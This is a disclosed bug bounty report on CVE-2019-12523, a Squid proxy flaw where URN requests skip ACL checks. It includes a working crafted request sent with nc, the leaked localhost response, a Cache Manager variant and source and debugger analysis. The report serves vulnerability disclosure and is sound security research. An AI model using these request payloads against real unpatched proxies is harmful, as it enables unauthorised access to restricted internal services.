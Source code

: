 # URN Request bypass ACL Checks

## Report Details
- **Report ID**: 824802
- **URL**: https://hackerone.com/reports/824802
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-03-19T18:17:10.917Z
- **Disclosed**: 2021-08-26T23:32:28.453Z

## Reporter
- **Username**: jeriko_one
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
## Summary:
Attacker can bypass ACL checks gaining access to restricted HTTP servers such as those running on localhost. Attacker could also gain access to CacheManager if VIA
header is turned off. Only lines with : will be readable though, and the response must be less than 4096 bytes or it'll trigger the Heap Overflow I reported earlier. 

This is due to URN request being transformed into HTTP request, and not going through the ACL checks that incoming HTTP request go through. 

<= Squid-4.8 Vulnerable
Fixed in Squid-4.9
Squid Announce: http://www.squid-cache.org/Advisories/SQUID-2019_8.txt
Assigned  CVE-2019-12523 

## Steps To Reproduce:
Enable URN by adding the following entry to Safe_ports
```
acl Safe_ports port 0           # urn
```

Ensure that you're blocking request to localhost
```
http_access deny to_localhost
```
1) Start Squid
```
./sbin/squid 
```

2) Start a HTTP server on localhost serving a file that has colons
```
python -m http.server --bind 127.0.0.1 8080
```
Contents of hello.html
```
<html>
	<body>
	Notice: For localhost only
	</body>
</html>
```

3) Make the following URN request

```
echo -e "GET urn::@127.0.0.1:8080/hello.html? HTTP/1.1\r\n\r\n" |nc <squid hostname> 3128

HTTP/1.1 302 Found
Server: squid/4.8
Mime-Version: 1.0
Date: Thu, 19 Mar 2020 18:11:20 GMT
Content-Type: text/html
Content-Length: 460
Expires: Thu, 19 Mar 2020 18:11:20 GMT
Location: 	Notice: For localhost only
X-Cache: MISS from g64
Via: 1.1 g64 (squid/4.8)
Connection: keep-alive

<TITLE>Select URL for urn::@127.0.0.1:8080/hello.html?</TITLE>
<STYLE type="text/css"><!--BODY{background-color:#ffffff;font-family:verdana,sans-serif}--></STYLE>
<H2>Select URL for urn::@127.0.0.1:8080/hello.html?</H2>
<TABLE BORDER="0" WIDTH="100%">
<TR><TD><A HREF="	Notice: For localhost only">	Notice: For localhost only</A></TD><TD align="right">Unknown</TD><TD> </TD></TR>
</TABLE><HR noshade size="1px">
<ADDRESS>
Generated by squid/4.8@g64
</ADDRESS>

```

## Analysis
URN Request are different than other request coming into Squid. The original
URN request is hardly parsed from Anyp::Uri::parse only setting a scheme and path.

AnyP::Uri::parse
    } else if (strncmp(url, "urn:", 4) == 0) {
        debugs(23, 3, "Split URI '" << url << "' into proto='urn', path='" << (url+4) << "'");
        debugs(50, 5, "urn=" << (url+4));
        setScheme(AnyP::PROTO_URN, nullptr);
        path(url + 4);
        return true;
Once it's reached FwdState::Start it arrives in it's own URN code. The original
URN request is then transformed into a new HTTP request.

UrnState::setUriResFromRequest
    char *host = getHost(uri);
    snprintf(local_urlres, 4096, "http://%s/uri-res/N2L?urn:" SQUIDSBUFPH, host, SQUIDSBUFPRINT(uri));
    safe_free(host);
    safe_free(urlres);
    urlres_r = HttpRequest::FromUrl(local_urlres, r->masterXaction);

This new HTTP Request is sent directly to FwdState::Start without going
through doCallouts or clientAccessChecks

UrnState::created
	FwdState::Start(Comm::ConnectionPointer(), urlres_e,urlres_r.getRaw(), ale);

This allows a user to reach HTTP servers that were meant to
be blocked by Squid, e.g. localhost.

http://:@127.0.0.1:7331/PATH?/uri-res/N2L?urn::@127.0.0.1:7331/PATH?

Squid won't be able to callback into itself to access things like Cache
Manager since the VIA header will be set. If a Squid server was configured to
not send the Via header then this would give a user access to it.
Here's a blog post that recommends removing VIA header to remove all Proxy
headers https://adamscheller.com/systems-administration/remove-proxy-headers-squid/

If via is off a user could send a request such as below to gain access
GET urn::@localhost:3128/squid-internal-mgr/active_requests? HTTP/1.1

Below is the CacheManager getting accessed via this:
Breakpoint 2, CacheManager::start (this=0x603000000e80, client=..., request=0x61c00001f880, entry=0x60c00001ff00, ale=...) at cache_manager.cc:307
(gdb) p request->url->absolute_->store_.p_->mem
$25 = 0x62900000f200 "http://g64:3128/squid-internal-mgr/active_requests?/uri-res/N2L?urn::@localhost:3128/squid-internal-mgr/active_requests?

A user abusing this won't see the full response, since URN handles URLs and
looks for :. Therefore they would only see lines containing :

Also the current state of URN it's more likely that Squid would crash due to
overflows than show the user any data. Once that is fixed this becomes a more
reasonable way to leak internal responses.

## Impact

Attacker can bypass all ACLs using an URN Request. This allows them to make HTTP GET Request to restricted resources. An attacker will be limited on what they can view from these request. Lines must contain : and the response must be less than 4096 bytes.

## Attachments
No attachments
